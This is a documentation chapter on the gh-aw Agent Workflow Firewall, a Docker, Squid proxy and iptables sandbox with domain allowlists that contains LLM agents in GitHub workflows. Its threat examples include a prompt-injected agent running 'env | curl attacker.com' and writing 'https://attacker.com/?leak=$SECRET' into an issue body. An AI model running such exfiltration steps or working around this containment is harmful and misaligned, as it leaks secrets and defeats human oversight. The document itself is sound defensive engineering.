

# 07 — AWF Firewall & Sandbox

> _Based on gh-aw v0.61.0 · Last reviewed 2026-04_

The **Agent Workflow Firewall (AWF)** is the kernel-enforced sandbox that turns
"an LLM agent running shell commands" into something you can responsibly point
at a production repository. It boxes the agent into a Docker network, redirects
every packet through a Squid proxy, and drops everything that is not on an
allowlist — at the iptables layer, not the application layer. **All four
engines (Copilot, Claude, Codex, Gemini) run under AWF.** This document walks
through the architecture, configuration model, ecosystem identifiers, SSL
Bump, and the subtle interactions with strict mode and safe outputs.

## TL;DR

- AWF = **Docker sandbox + Squid proxy + iptables redirect + optional API-key sidecar**.
- Network policy is declared per-workflow with `network:`. The default when
  omitted is `network: defaults` (baseline infrastructure only).
- `network: {}` means **no network access at all** — the agent is completely
  cut off from the network. Use this for true air-gapped runs.
- Use **ecosystem identifiers** (`python`, `node`, `containers`, …) instead of
  raw domains; they are curated allowlists maintained by the gh-aw project.
- **Blocks always win** over allows; subdomains and wildcards (`*.example.com`)
  are honored. Per-entry `https://` / `http://` prefixes pin the scheme.
- **SSL Bump** (AWF 0.9.0+) enables URL-path-level filtering of HTTPS via deep
  packet inspection — opt-in with `network.firewall.ssl-bump: true`.
- **Strict mode** allows custom domains (no warning) but **warns** when you
  list an individual ecosystem-member domain (e.g. `pypi.org`) and recommends
  the matching ecosystem identifier (e.g. `python`) instead.
- The firewall's **content sanitizer** redacts URLs from non-allowed domains
  in safe-output payloads, so an agent cannot exfiltrate data via an issue
  body either.

## Key Concepts

| Concept | What it does | Why it matters |
|---|---|---|
| **Squid proxy container** | Filters outbound HTTP/HTTPS by domain | Single chokepoint; no domain → no packet |
| **Agent container** | Runs your `claude` / `codex` / `copilot` / `gemini` invocation | Isolated; no direct internet route |
| **API proxy sidecar** | Holds API keys, signs requests on agent's behalf | Keys never live in agent process memory |
| **iptables redirect** | Forces agent traffic through Squid | Can't be bypassed by a stray `curl --proxy ''` |
| **Ecosystem identifier** | Named bundle of trusted domains | Forward-compatible, audited, idiomatic |
| **`network.allowed`** | Allow list (ecosystems + domains) | Composed per-workflow |
| **`network.blocked`** | Hard deny list | Wins against `allowed`; supports wildcards |
| **`network.firewall.ssl-bump`** | MITM HTTPS to filter by URL path | Lets you allow only `github.com/githubnext/*` |
| **`network: {}`** | Empty object — no network access | True air-gap mode |

> [!NOTE]
> AWF requires Docker 20.10+ with Compose v2, Node.js 20.19.0+ for building
> from source, and Ubuntu 22.04 or newer. GitHub-hosted runners satisfy all
> three.

## Deep Dive

### 1. The three-container topology

When `gh aw compile` emits a workflow whose engine targets AWF, the resulting
`lock.yml` spins up a Docker Compose stack with up to three services:



**Why three containers and not one?**

- The **agent** is the only container that runs untrusted instructions, so it
  gets the smallest blast radius: no API keys, no host filesystem, no direct
  network.
- **Squid** is a battle-tested HTTP/HTTPS proxy with mature ACLs. AWF
  generates its `squid.conf` from your `network:` block.
- The **API proxy sidecar** is optional but recommended in production: even
  if the agent is prompt-injected into running `env | curl attacker.com`, the
  secret is not in `env` — it lives only in the sidecar.

### 2. Kernel-level enforcement

AWF runs `iptables` rules inside the agent container that REDIRECT all
outgoing TCP traffic on ports 80/443 to the Squid container. This is **not**
an `HTTP_PROXY` environment variable that an attacker-controlled tool can
simply unset. Even raw socket calls land in Squid.

> [!WARNING]
> Non-HTTP protocols (raw TCP, UDP, ICMP) to non-allowed addresses are dropped
> by the bridge network policy. If you need a custom protocol, you almost
> certainly should not be using AWF for that workflow — file an issue and
> discuss the threat model.

### 3. The `network:` configuration grammar

```yaml
# (a) Default when omitted — baseline infrastructure only
network: defaults

# (b) No network at all — true air-gap mode
network: {}

# (c) Object form: ecosystem identifiers + domains, with optional blocked list
network:
  allowed:
    - defaults
    - python
    - github
    - "api.example.com"
    - "https://secure.partner.io"     # HTTPS-only
    - "http://legacy.example.com"     # HTTP-only
    - "*.cdn.example.com"             # wildcard
  blocked:
    - "raw.githubusercontent.com"
    - "*.evil.example"
  firewall:
    ssl-bump: true                    # AWF 0.9.0+; HTTPS deep inspection
    allow-urls:
      - "https://api.github.com/repos/*/issues"
    log-level: info                   # debug | info | warn | error
```

**Key rules:**

- **`network: defaults`** is the default when you omit `network:` entirely.
- **`network: {}`** truly blocks all network access — there is no implicit
  baseline. Use it for static-analysis-only workflows.
- **`blocked:` always wins** over `allowed:`, including against ecosystem
  identifiers (so you can allow `python` and still block one CDN inside it).
- **Wildcards** (`*.example.com`) and **scheme prefixes** (`https://`,
  `http://`) work in both `allowed:` and `blocked:`.
- **`firewall.allow-urls`** patterns are exact URL globs evaluated by Squid
  after SSL Bump terminates TLS — they are URL-path-level, not just hostnames.

### 4. Ecosystem identifiers

Maintaining a domain allowlist by hand is unrealistic — the npm registry alone
fans out to dozens of CDNs. AWF ships **ecosystem identifiers**: named bundles
maintained alongside the firewall code.

| Identifier | Includes |
|---|---|
| `defaults` | Basic infrastructure (certs, JSON schema, Ubuntu mirrors, Microsoft sources, package mirrors) |
| `github` | github.com, docs.github.com, github.blog, `*.githubusercontent.com` |
| `local` | localhost, 127.0.0.1, ::1 |
| `dev-tools` | Codecov, Shields.io, Snyk, Renovate, CircleCI |
| `default-safe-outputs` | `defaults` + `dev-tools` + `github` + `local` |
| `containers` | Docker Hub, GHCR, Quay |
| `linux-distros` | Debian, Alpine, Ubuntu, etc. |
| `python` | PyPI / pip / conda |
| `node` | npm / yarn / pnpm |
| `go` | proxy.golang.org, sum.golang.org |
| `rust` | crates.io |
| `java` | Maven Central, Gradle plugin portal |
| `ruby` | RubyGems, Bundler |
| `php` | Packagist |
| `perl` | CPAN |
| `swift` | Swift package registries |
| `dotnet` | NuGet |
| `dart` | pub.dev |
| `julia` | pkg.julialang.org |
| `lean` | Lean package registries |
| `haskell` | Hackage, Stackage |
| `deno` | deno.land, jsr.io, `*.jsr.io` |
| `terraform` | HashiCorp registry |
| `playwright` | Playwright browser binary downloads |
| `chrome` | `*.google.com`, `*.googleapis.com`, `*.gvt1.com` |

> [!NOTE]
> Ecosystem bundles are versioned with gh-aw itself. When you bump gh-aw, run
> `gh aw compile` to regenerate lock files; the embedded domain lists may
> have changed.

### 5. Protocol-specific filtering

Per-entry scheme prefixes pin an allowlist or blocklist entry to a single
protocol. Wildcards apply to the host portion:

```yaml
network:
  allowed:
    - "https://secure.api.example.com"   # HTTPS only
    - "http://legacy.example.com"        # HTTP only
    - "example.org"                      # both schemes
    - "https://*.api.example.com"        # HTTPS wildcard
```

These compile down to AWF flags consumed by Squid:

```text
--allow-domains ...,example.org,http://legacy.example.com,https://secure.api.example.com,https://*.api.example.com,...
```

### 6. SSL Bump — URL-path-level HTTPS filtering

A bare domain allowlist is too coarse for some workflows. If you allow
`github.com`, the agent can reach **any** path on github.com. SSL Bump (AWF
0.9.0+) enables MITM on outbound TLS so Squid can apply ACLs to the full URL:

```yaml
network:
  allowed: [defaults, github]
  firewall:
    ssl-bump: true
    allow-urls:
      - "https://github.com/githubnext/*"
      - "https://api.github.com/repos/*/issues"
    log-level: debug
```

With this, even if `github.com` is in the allowlist, only the matched paths
complete; everything else returns 403 from Squid. `log-level` controls Squid
verbosity (`debug` / `info` / `warn` / `error`).

> [!WARNING]
> SSL Bump installs a generated CA into the agent container's trust store. It
> does **not** affect the host or the runner. Pinned-cert clients (some Go
> binaries, Erlang `:public_key`) may fail; you can exempt them by listing
> their target domains outside `allow-urls`.

### 7. Strict mode interactions

Strict mode (default `true`) tightens validation. Two interactions matter for
networking:

1. **Custom domains are allowed without warning.** Adding
   `"api.example.com"` to `network.allowed` does not trigger any strict-mode
   diagnostic. Custom hosts are an explicit, deliberate addition.
2. **Individual ecosystem-member domains produce a warning.** Writing
   `pypi.org` instead of the `python` identifier yields a recommendation to
   switch to the ecosystem bundle, because the bundle stays current as the
   ecosystem shifts CDNs.

```text
⚠ network.allowed[2] "pypi.org" is part of the "python" ecosystem.
  Recommended: use the "python" identifier instead — it tracks PyPI's CDN list.
```

This is a recommendation, not a rejection. Custom domains and ecosystem
identifiers can be freely mixed.

### 8. Filesystem isolation (chroot mode)

AWF separates two concerns:

- **Network isolation** is enforced by Squid + iptables (everything above).
- **Filesystem isolation** is enforced by a chroot view that exposes a curated
  set of host binaries (git, gh, node, python, …) read-only while keeping the
  agent's working tree writable.

This separation matters because real workflows need to call host tooling
(`gh pr create`, `git apply`) without inheriting the host's broad network
access. Chroot + AWF gives you "the binary, not the credentials, not the
internet."

### 9. Side-effect: safe-output content sanitization

The same allowlist that controls outbound traffic also drives the **content
sanitizer** that runs over safe-output payloads. URLs whose host is not in
the allowlist are rewritten to `(redacted)` before the safe-output job ever
sees them. This closes a clever exfiltration path: even if the agent cannot
`curl attacker.com`, it could try to write
`https://attacker.com/?leak=$SECRET` into an issue body. The sanitizer
redacts that link.

## Examples

### Example 1 — Minimum-viable Python workflow

```yaml
---
on: workflow_dispatch
permissions: read-all
network:
  allowed: [defaults, python, github]
engine: copilot
safe-outputs:
  create-issue:
---

# Audit dependencies

Scan `requirements.txt` and open an issue listing CVEs.
```

### Example 2 — Multi-ecosystem with custom partner API

```yaml
network:
  allowed:
    - defaults
    - node
    - containers
    - "https://api.partner.example.com"
  blocked:
    - "*.tracking.partner.example.com"
```

Custom domain `api.partner.example.com` is accepted in strict mode without
warning; `node` is preferred over listing `registry.npmjs.org` directly.

### Example 3 — Locked-down with SSL Bump

```yaml
network:
  allowed: [defaults, github]
  firewall:
    ssl-bump: true
    allow-urls:
      - "https://api.github.com/repos/${{ github.repository }}/*"
      - "https://github.com/${{ github.repository }}/*"
    log-level: info
```

This workflow can talk to GitHub **only about the current repo** — no other
repository, no other org.

### Example 4 — Air-gapped analysis

```yaml
network: {}
```

The agent runs with **zero network access**. Useful for static analysis tasks
where everything is in the checked-out tree.

## Pitfalls & FAQ

> [!WARNING]
> **`network: {}` truly blocks the network — including ecosystem baselines.**
> If you need PyPI/npm but no other internet, write
> `network: { allowed: [defaults, python] }` instead of `{}`.

> [!TIP]
> Listing `pypi.org` directly will work but you will get a strict-mode
> recommendation to use `python` — take the recommendation; the bundle is
> kept current as PyPI rotates CDNs.

**Q: Can I run a private MCP server inside the sandbox?**
Yes. Bind it to `localhost` and add `local` to your allowed list. Squid does
not intercept loopback traffic.

**Q: Does AWF work on self-hosted runners?**
Yes, provided Docker 20.10+/Compose v2/Ubuntu 22.04+. macOS and Windows
runners are not supported because the iptables setup is Linux-specific.

**Q: How do I debug "domain blocked" errors?**
Set `network.firewall.log-level: debug` and inspect `awf.log` in the workflow
run artifacts. Each blocked request is logged with the destination host,
requesting tool, and the matching deny rule (or the absence of a matching
allow rule).

**Q: Does the firewall affect the LLM API call itself?**
With the API proxy sidecar enabled, yes — the sidecar's own egress is also
subject to the allowlist. The relevant LLM provider domain (api.openai.com,
api.anthropic.com, etc.) is automatically added when you select an engine,
so you do not need to list it manually.

**Q: Which engines run under AWF?**
All four — Copilot, Claude, Codex, and Gemini. AWF is not engine-specific.

## Related Docs

- [Safe Outputs Catalog](./06-safe-outputs-catalog.md)
- [Threat Detection & XPIA](./08-threat-detection-and-xpia.md)
- [Imports & Shared Components](./09-imports-and-shared-components.md)
- [`gh aw` CLI Reference](../gh-aw-cli-reference.md)
